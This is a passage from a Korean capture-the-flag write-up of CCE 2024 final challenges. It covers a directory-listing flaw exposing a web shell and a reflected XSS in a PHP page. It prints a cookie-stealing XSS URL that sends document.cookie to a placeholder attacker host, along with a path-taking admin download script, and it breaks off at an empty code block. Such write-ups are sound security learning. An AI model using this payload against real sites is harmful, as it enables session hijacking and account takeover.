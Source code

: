 <img src="/assets/images/ctf/2024/cce-final/04/1.jpg" width=700px>           
     
`/var/www/html/helloworld2/` 경로에 접근하면 디렉터리 리스팅 취약점으로 인해 폴더 안에 파일들이 보이며 웹쉘 파일에 접근이 가능해진다.       
      
<img src="/assets/images/ctf/2024/cce-final/04/2.jpg" width=700px>                
                                    
## Flag                      
cce2024{66ec6fe4d66ecbb644fd110e0ebfc25bc39c1273d63455859719455a4b04cadd51203ba2dc8830aa2d79d11ad7f9ffc4ae263b70fb}       
<a id="06-철도관제센터"></a>                       
        
# 06-철도관제센터                  
      
admin 계정에 파일 업로드, 다운로드 기능이 존재하고 일반 유저가 가진 기능은 크게 없었다. 대회 당시 admin 계정까지 탈취하고 `phar://`를 사용하는 것까지 방향을 잘 잡았지만, 결국 해결하지 못해 대회 이후 @One님이 올려주신 write-up을 참고하여 작성하였다.   
           
<strong>index.php</strong>         
```html
<li>
<label for="selGoStartDay">출발일</label>
<input type="text" id="selGoStartDay" name="start" class="txt120" value="<?=isset($_GET["selGoStartDay"])?$_GET["selGoStartDay"]:"2024.9.11"?>" title="출발일" disabled>
</li>
```     
index 페이지를 보니 XSS 취약점이 존재하였고, `8080` 포트에 봇이 존재하여 admin 계정 탈취가 가능했다.   
     
```txt
http://52.231.191.39/?selGoStartDay="><script>location.href%3D'http%3A%2F%2Fattacker_ip%3A8000%2F'%2Bdocument.cookie<%2Fscript>
```     
위 URL에 봇이 접속하도록 함으로써 세션을 탈취했다.    
     
<strong>admin/download.php</strong>      
```php
<?php

require_once "../lib/config.php";

if(!is_login() || !is_admin()) header("Location: ./login.php");


$path = $_GET["path"];

$file = new FileDownloader($path);
$file->download();
?>
```    
<strong>lib/class.inc.php</strong>     
```php
```